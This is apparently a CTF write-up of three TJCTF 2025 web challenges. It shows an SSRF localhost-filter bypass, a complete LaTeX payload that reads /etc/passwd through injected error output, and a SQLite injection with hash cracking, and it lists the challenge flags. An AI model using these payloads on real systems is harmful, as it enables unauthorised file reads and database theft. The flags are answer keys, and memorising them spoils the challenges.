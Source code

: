 ------------------

### CTF-: TJCTF 2025

------------------

- Web-:
  - Loopy
  - Texploit
  - Chilly-site

------------------

### Loopy

------------------

![image](https://github.com/user-attachments/assets/faccb1a6-72ec-437d-bbd7-8135c2400c9f)

------------------

- The website allows users to preview site which fits a Server Side Request Forgery scenario.

![image](https://github.com/user-attachments/assets/94cfbb3c-81d6-4518-a156-996930936ce9)

- The challenge description gave a hint to load a service at port `5000`.I tried to load it with `localhost:5000` and it  didn't work.Oops, it looks like the site has a long list of filters for the service.

![image](https://github.com/user-attachments/assets/be0b14a8-cfa0-4cc5-8ff4-9c6ee91393ae)

- You can try simple ssrf bypass tricks by using a redirect or just look another represntation of localhost which worked for me. Bypass-: ```http://0:5000/admin```.

![image](https://github.com/user-attachments/assets/82997e35-23b5-4a92-8f30-8f63bb633633)

- Flag-:```tjctf{i_l0v3_ssssSsrF_9o4a8}```

--------------------

### Texploit

--------------------

![image](https://github.com/user-attachments/assets/1774ea97-8ba2-4693-925a-f6d5e5022131)

---------------------

- The site is a latex compiler that compiles latex code into pdf.I tried the basic latex payload like `/input` and it didn't work.

![image](https://github.com/user-attachments/assets/7569e4ab-17d3-417f-a4f8-120f4b69350f)

-  After google searching for sometime,I got this payload from a [ctf writeup](https://hackmd.io/@toxicpie9/By154DFe9) that allows us to read files by triggering an error. The main idea is that `pdflatex` prints errors to stdout in a special format, so we can do something like \typeout{! abc} to trick the bot into thinking that abc is an error.Payload-:

```pdflatex
\catcode0=10  % make \0 not produce a syntax error
\catcode9=11  % make \t indents work correctly

\def\n{/etc/passwd}
\def\l{0}
\def\r{420}

\newread\file
\openin\file=\n

\newcounter{line}
\makeatletter
\@whilenum\value{line} < \r \do {
    \read\file to \fileline
    \stepcounter{line}
    \ifnum\value{line} > \l
        \typeout{! \fileline}
    \fi
}
```

- The payload above will read 420 chars in the `/etc/passwd` file.

![image](https://github.com/user-attachments/assets/ba14032a-7c87-400c-a9b0-6e4a7f1c361d)

- Flag-: ```tjctf{f1l3_i0_1n_l4t3x?} ```

![image](https://github.com/user-attachments/assets/4800df94-9e44-41f6-8c2b-7ad982f4338d)


--------------------

### Chill-site

--------------------

![image](https://github.com/user-attachments/assets/bb01070a-dd95-48b6-929d-e8b828ca056d)

---------------------

- The site is vulnerable to sqlite3 injection and it filters important chars like `or` and `--`.My teammates discovered a user `test` which made it easier to use `AND` and also replaced `--` with `/*`.
- After enum for a long time,I discovered columns for `stats` and `database`.I focused more on dumping `database` with my script.To avoid wasting time, we'll focus solely on column `user` and `pass`.The crucial user in this chall is `tuxlikeslowercaseletters`.

- My team mate cracked the hash which is sha1 for `allsgud` which allowed him to login and get the flag.



---------------------
